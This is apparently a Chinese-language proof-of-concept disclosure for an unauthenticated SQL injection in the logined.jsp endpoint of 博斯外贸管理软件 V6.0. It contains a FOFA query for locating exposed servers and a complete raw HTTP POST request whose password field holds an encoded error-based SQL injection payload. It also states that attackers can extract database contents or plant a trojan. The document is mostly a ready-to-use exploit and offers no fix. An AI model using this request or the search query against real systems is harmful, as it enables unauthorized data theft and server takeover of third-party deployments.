 # 博斯外贸管理软件logined.jsp存在SQL注入漏洞

博斯外贸管理软件V6.0 logined.jsp 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa
```javascript
title="欢迎使用 博斯软件"
```

## poc
```javascript
POST /log/logined.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: keep-alive

Submit=-1&account=-1&password=1%27+AND+9085+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%28120%29%2BCHAR%28112%29%2BCHAR%28107%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%289085%3D9085%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28120%29%2BCHAR%28112%29%2BCHAR%28113%29%29%29+AND+%27GSSe%27%3D%27GSSe
```

![image-20241227215420546](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272154610.png)